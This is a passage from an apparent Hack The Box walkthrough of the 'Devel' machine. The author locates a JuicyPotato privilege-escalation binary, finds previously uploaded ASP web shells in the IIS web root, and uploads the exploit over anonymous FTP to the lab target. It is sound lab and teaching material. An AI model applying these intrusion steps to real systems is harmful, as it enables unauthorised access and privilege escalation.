 Let's try to serve the exploit. As this is an x64 system, the x86 version we tried on Granny won't work - so I'll need to find a binary for x64. Luckily [the releases page](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) has one. I already had this downloaded, and used `locate` to find it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ locate JuicyPotato.exe
/home/mac/Documents/exploits/JuicyPotato.exe
```

I tried a few methods of downloading the file with a HTTP server, before realising I could just use FTP to upload it - however, I wasn't sure where the file would land. I did some digging, and found my shells in `c:\inetpub\wwwroot`:

```cmd
c:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\inetpub\wwwroot

14/06/2021  02:14 ��    <DIR>          .
14/06/2021  02:14 ��    <DIR>          ..
18/03/2017  02:06 ��    <DIR>          aspnet_client
17/03/2017  05:37 ��               689 iisstart.htm
14/06/2021  01:58 ��                 6 test
17/03/2017  05:37 ��           184.946 welcome.png
14/06/2021  02:10 ��            38.680 whoops.asp
14/06/2021  02:14 ��             2.763 whoopsie.aspx
               5 File(s)        227.084 bytes
               3 Dir(s)  22.279.733.248 bytes free
```

This is where IIS files usually are, but I didn't know if it would be different with FTP.

I uploaded the exe:

```bash
┌──(mac㉿kali)-[~/Documents/exploits]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:mac): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put JuicyPotato.exe
local: JuicyPotato.exe remote: JuicyPotato.exe
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
348468 bytes sent in 0.43 secs (783.7077 kB/s)
```
